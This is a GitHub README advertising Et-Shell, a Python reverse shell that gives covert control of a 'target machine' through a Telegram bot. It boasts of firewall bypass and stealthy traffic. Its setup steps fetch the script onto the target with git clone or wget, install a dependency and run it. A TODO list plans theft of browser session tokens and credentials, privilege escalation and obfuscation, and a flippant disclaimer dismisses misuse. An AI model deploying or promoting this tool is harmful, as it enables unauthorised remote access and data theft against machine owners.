 # ⚡ Et-Shell – The Easiest Reverse Shell You’ll Ever Use!

Forget complicated setups. **Et-sHell** gives you a **fully functional reverse shell** using **Telegram**—no need for a remote server, no open ports, no headaches. Just straight-up shell access, routed through Telegram’s servers.

## 🔥 Why etShell?

-   **Broke? No server?, no problem** – No need to set up a VPS, configure nginx rules or expose your IP.
-   **Firewall? Bypass it.** – No open ports, no NAT issues, just seamless communication.
-   **Command & Control via Telegram** – Send shell commands from your girlfriend's dorm room with your phone.
-   **Discreet & Stealthy** – Blends in like a ghost – Telegram traffic = Innocent AF!.
-   **File Transfers** – Upload and download files.
-   **Live Mode** – Watch command output in real-time.

## 🛠️ Setup in 60 Seconds

1.  **Create a Telegram bot** via [@BotFather](https://t.me/BotFather).
2.  **Clone this repo on your Target Machine/ wget [`etshell.py`](https://raw.githubusercontent.com/0xdotgz/Et-Shell/refs/heads/main/etshell.py)** :
    
    ```
    git clone https://github.com/0xdotgz/Et-Shell   
    ```
    
3.  **Install dependencies**:
    
    ```
    pip install telepot  
    ```
        
 4. **Paste your bot `TOKEN` obtained from  [@BotFather](https://t.me/BotFather) in `etshell.py`.**
    
5.  **Run it**:
    
    ```
    python etshell.py  
    ```
    
5.  **Start commanding your Target Machine via Telegram.**

## 🔜 TODO:

- [ ] Grab the Telegram Bot TOKEN from a remote source securely every time the program executes
- [ ] Implement local enumeration for privilege escalation
- [ ] Retrieve plaintext details and browser session tokens
- [ ] Apply obfuscation techniques


## ⚠️ Disclaimer

This tool is for **whatever purposes** and make sure your bot token stays safe. If you use it for anything shady, that's on you. Don’t be dumb.

Now go have some fun pwning!

[![Telegram](https://badgen.net/badge/icon/Don't%20be%20an%20skid!?icon=telegram&label=DM%20for%20Queries)](https://t.me://hello_elliot_bot)
----------

#### LICENSE
```
             DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2004 Sam Hocevar <sam@hocevar.net>

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.

```
